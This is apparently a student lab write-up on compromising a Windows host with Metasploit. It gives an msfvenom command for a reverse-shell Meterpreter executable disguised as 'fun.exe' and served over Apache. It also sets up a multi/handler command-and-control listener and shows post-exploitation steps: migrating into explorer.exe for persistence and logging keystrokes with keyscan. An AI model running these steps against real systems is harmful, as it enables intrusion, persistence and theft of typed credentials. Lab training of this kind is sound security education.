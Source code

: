 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![ifconfig](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/890da223-ee83-4a04-9bee-fd5f53ea62a4)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![msfvenom](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/9d5453ef-2bbd-4132-9b4e-cf29d5610169)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![msf2](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/8f32313d-01d3-418f-8013-4f551014f952)

Start apache server
sudo systemctl apache2 start
## OUTPUT:
![apache1](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/3ca06607-ac29-4e5c-90e1-5366fb36ff78)

Check the status of apache2
## OUTPUT:

Invoke msfconsole:
## OUTPUT:
![msfconsloe](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/44d147b1-ec08-4f88-9a90-c07447b7c9b9)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![help](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/64cf9c76-1920-45e1-ac82-864900fa2805)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![ccs](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/9bcf690b-1acd-42ed-bef4-bdd63cf79bf9)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump	Shows the keystrokes captured so far

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
